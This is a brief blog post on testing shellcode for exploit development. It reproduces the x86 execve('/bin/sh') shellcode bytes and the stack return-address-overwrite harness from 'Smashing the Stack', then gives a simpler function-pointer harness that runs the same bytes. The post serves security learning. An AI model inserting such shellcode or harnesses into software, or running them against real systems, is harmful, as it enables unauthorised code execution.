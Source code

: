 ```yaml
---
title:  "Testing Your Shellcode"
date:   2019-03-20 09:00:00
categories: information 
layout: post
---
```


The code given in "Smashing the Stack" for testing the shell code is a bit
ugly. Here's what they do (which involves overwriting the saved return address
on the stack:

```C
char shellcode[] = 
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b" 
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd" 
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

void main() { 
  int *ret;
  ret = (int *)&ret + 2; 
  (*ret) = (int)shellcode;
}
```

It is much easier to use a function pointer: 

```C
void main() { 
  void (*s)() = (void *)shellcode;
  s();
}
```



